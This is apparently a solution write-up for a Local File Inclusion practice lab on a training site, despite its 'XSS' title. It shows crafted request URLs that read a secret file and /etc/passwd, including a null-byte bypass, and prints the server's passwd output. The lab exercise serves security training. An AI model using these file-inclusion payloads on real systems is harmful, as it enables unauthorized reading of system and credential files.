 #  XSS Rat Lab 
## URL :- `https://hackxpert.com/labs/LFI/`

Solutions -->

![image](https://user-images.githubusercontent.com/60841283/151112457-622654ab-b924-4df9-9623-94a5ef2337ee.png)

### 1st Search Box:

Enter : `test.txt`

Result : `https://hackxpert.com/labs/LFI/endPoint.php?field2_name=test.txt&submit=submit&parent_id=0`

Contents : `testsdsgdgfd`

Visit : `https://hackxpert.com/labs/LFI/endPoint.php?field2_name=secret.txt&submit=submit&parent_id=0`

Contents : `You should not be seeing this!! This is a secret file!! `

Visit : `https://hackxpert.com/labs/LFI/endPoint.php?field2_name=/etc/passwd`

Content :

```html
<div class="comment">
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
usbmux:x:109:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
landscape:x:111:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:112:1::/var/cache/pollinate:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:113:116:MySQL Server,,,:/nonexistent:/bin/false
debian-tor:x:114:118::/var/lib/tor:/bin/false
ftp:x:115:119:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
Training:x:1000:1000::/var/www/html/Training/:/usr/sbin/nologin
nagios:x:1001:1001::/home/nagios:/bin/sh
toof:x:1002:1003::/home/toof:/bin/bash
openldap:x:116:120:OpenLDAP Server Account,,,:/var/lib/ldap:/bin/false
dnsmasq:x:117:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
brandon:x:1003:1004:,,,:/home/brandon:/bin/bash
mayank_pandey01:x:1004:1005::/var/www/html/labs/mayank_pandey01:/usr/sbin/nologin
</div>
```

### 2nd Search box 

Visit : `https://hackxpert.com/labs/LFI/endPoint-2.php?field2_name=/etc/passwd%00&submit=submit&parent_id=0`

Output :
```html
<div class="comment">root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
  --snip--
  --snip--
brandon:x:1003:1004:,,,:/home/brandon:/bin/bash
mayank_pandey01:x:1004:1005::/var/www/html/labs/mayank_pandey01:/usr/sbin/nologin
```

### Special Lab

Default URL :- `https://hackxpert.com/labs/LFI/rat.php?field2_name=image0.jpg`

Vul URL :- `https://hackxpert.com/labs/LFI/rat.php?field2_name=/etc/passwd`

![image](https://user-images.githubusercontent.com/60841283/151114502-0a304f6a-8736-4070-a7f4-ac47b5ca1662.png)
